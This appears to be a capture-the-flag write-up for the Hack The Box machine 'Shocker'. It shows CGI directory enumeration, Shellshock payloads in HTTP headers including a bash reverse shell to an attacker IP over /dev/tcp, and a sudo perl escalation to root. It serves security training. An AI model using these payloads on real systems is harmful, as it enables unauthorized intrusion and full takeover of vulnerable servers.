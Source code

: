 # SHOCKER

### RECON 

```
dirb http://10.10.10.56/ /usr/share/wordlists/dirb/big.txt
http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)
http://10.10.10.56/server-status (CODE:403|SIZE:299)     
```

/cgi-bin is designed to use scripts on the website 

```
dirb http://10.10.10.56/cgi-bin /usr/share/wordlists/dirb/big.txt -X .pl,.sh
http://10.10.10.56/cgi-bin/user.sh (CODE:200|SIZE:119)
```

/cgi-bin + user.sh + the name of the machine shocker we can safely assume we have to use shell-shock

```
locate nse | grep shellshock
```

```
GET /cgi-bin/user.sh HTTP/1.1
Host: localhost:8081
Connection: close
User-Agent: () { :;}; echo; /bin/ls /;
```
so now we have command execution lets get a reverse shell
```
GET /cgi-bin/user.sh HTTP/1.1
Cookie: () { :;}; echo; /bin/bash -i >& /dev/tcp/10.10.14.28/4242 0>&1
Connection: close
Host: localhost:8081
```

from here we are shelly and can access /home/shelly and get the user.txt
sudo -l tells us that /usr/bin/perl can be used as sudo without password so lets play with that

quick search on gtfobins gets us to try 
```
sudo perl -e 'exec "/bin/sh";'
```

```
# whoami
root
```

thats is rooted
